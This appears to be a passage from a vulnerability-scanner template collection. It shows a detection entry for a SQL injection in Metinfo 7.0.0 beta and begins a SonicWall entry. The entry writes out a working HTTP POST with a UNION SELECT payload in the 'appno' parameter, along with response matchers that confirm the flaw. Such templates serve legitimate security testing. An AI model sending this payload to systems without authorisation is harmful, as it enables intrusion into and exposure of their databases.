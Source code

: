 **Type - word**

- part - body
- words
  1. 43865094559

**Type - status**

- status
  1. 200

---

# Metinfo 7.0.0 beta - SQL Injection

## Description

- Metinfo 7.0.0 beta is susceptible to SQL Injection in app/system/language/admin/language_general.class.php via the admin/?n=language&c=language_general&a=doExportPack appno parameter.
- severity - high
- tags - metinfo,sqli,cve,cve2019

## Requests

### Step - 1

```
POST /admin/?n=language&c=language_general&a=doExportPack HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

appno= 1 union SELECT 98989*443131,1&editor=cn&site=web

```

### Matchers

**Type - word**

- part - body
- words
  1. 43865094559

**Type - status**

- status
  1. 200

---

# SonicWall SRA 4600 VPN - SQL Injection
